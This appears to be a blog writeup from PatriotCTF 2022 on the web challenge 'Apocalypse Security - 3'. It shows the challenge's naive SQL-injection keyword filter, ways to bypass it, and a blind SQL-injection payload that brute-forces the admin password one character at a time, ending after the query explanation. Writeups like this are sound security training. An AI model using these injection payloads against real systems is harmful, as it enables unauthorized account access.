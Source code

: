 ```yaml
---
layout: post
title:  "PatriotCTF 2022 Writeup Collection"
author: "PatriotCTF"
date:   2022-05-01 00:00:00 +0000
categories: ctf patriotctf web programming crypto
description: "its the ctf"
---
```


{% raw %}

*[Challenges](https://pctf.competitivecyber.club/challenges)*  

Here are my writeups from PatriotCTF 2022! I came 26th overall, which was higher than I was expecting to get doing almost only the web challenges (which were incredibly fun). Rabbit holes and failed attempted challenges will be at the end. Please enjoy!

(Apologies for the infuriatingly-hard-to-read scripts, naming variables was never my forte)  

---

# Web

## Apocalypse Security - 3

> Good Job bypassing the filter, can you log in as admin now? We were able to find the filter script.  
>
> Author: Yojan (drMoscvovium)

I'm only going to be writing up the third challenge rather than the entire series as they all build on from each other, so this writeup should encompass the solutions to the other 2. Anyway, the given script looks like this:

```py
def detect_sqli(username, password):
    filters = ['or', 'and', 'admin']
    for filte in filters:
        if filte in password or filte in username:
            return (True, filte)
    else:
        return (False, )
```  

The challenge this time, in contrast to before, is that you have to brute-force the admin's password as opposed to just logging in as the admin. The filters are easily bypassed: you can simply capitalise "or" and "and" and you can just concatenate "adm" and "in" to get "admin". We can build up the password by brute-forcing each character in turn by using some special SQL syntax. The request looks like this:

```
Username: adm'||'in
Password: ' OR SUBSTR(`passwOrd`, {pos}, 1) = '{c}
```  

..., where `pos` is the string index of the character we'd like to bruteforce, and c is the character that it is checked against, to break out of the query that probably looks like:

```sql
/* Normal */
SELECT * FROM Users WHERE username = '{inp_username}' AND password = '{inp_password}';

/* Broken out */
SELECT * FROM Users WHERE username = 'adm'||'in' AND password = '' OR SUBSTR(`passwOrd`, {pos}, 1) = '{c}';
```  